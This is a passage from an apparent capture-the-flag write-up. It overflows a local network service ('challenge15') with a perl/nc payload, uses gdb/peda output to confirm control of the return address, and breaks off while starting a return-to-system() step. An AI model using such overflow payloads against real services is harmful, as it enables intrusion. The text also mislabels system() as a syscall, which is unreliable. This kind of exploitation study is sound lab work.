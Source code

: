 Send an overly long string:
```
root@hlUbuntu64:~/challenges/challenge15# perl -e 'print "A" x 264 . "BBBB"' | nc localhost 5001
```

And check the output of gdb/peda:
```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x73 ('s')
RDX: 0x6
RSI: 0x400cde --> 0x20746e65696c4300 ('')
RDI: 0x7fffffffdff6 ('A' <repeats 200 times>...)
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbd8 --> 0x42424242 ('BBBB')
RIP: 0x400a02 (<handleData+92>: ret)
R8 : 0x0
R9 : 0x1f
R10: 0x37d
R11: 0x7ffff7ba2730 --> 0xfffda400fffda12f
R12: 0x4008b0 (<_start>:        xor    ebp,ebp)
R13: 0x7fffffffe650 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
  0x4009fa <handleData+84>:    jmp    0x400a01 <handleData+91>
  0x4009fc <handleData+86>:    mov    eax,0x0
  0x400a01 <handleData+91>:    leave
=> 0x400a02 <handleData+92>:    ret
  0x400a03 <doprocessing>:     push   rbp
  0x400a04 <doprocessing+1>:   mov    rbp,rsp
  0x400a07 <doprocessing+4>:   sub    rsp,0x820
  0x400a0e <doprocessing+11>:  mov    DWORD PTR [rbp-0x814],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdbd8 --> 0x42424242 ('BBBB')
0008| 0x7fffffffdbe0 --> 0x6e0000005d (']')
0016| 0x7fffffffdbe8 --> 0x400000000
0024| 0x7fffffffdbf0 --> 0x0
0032| 0x7fffffffdbf8 --> 0x0
0040| 0x7fffffffdc00 --> 0x0
0048| 0x7fffffffdc08 --> 0x0
0056| 0x7fffffffdc10 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Thread 2.1 "challenge15" hit Breakpoint 1, 0x0000000000400a02 in handleData ()
```

The next value on the stack is 0x42424242, which will be our new RIP.
We will execute the syscall "system()". The call convention for syscalls defines that
the first argument for the system is stored in `%rdi`. `system()` only uses one argument:
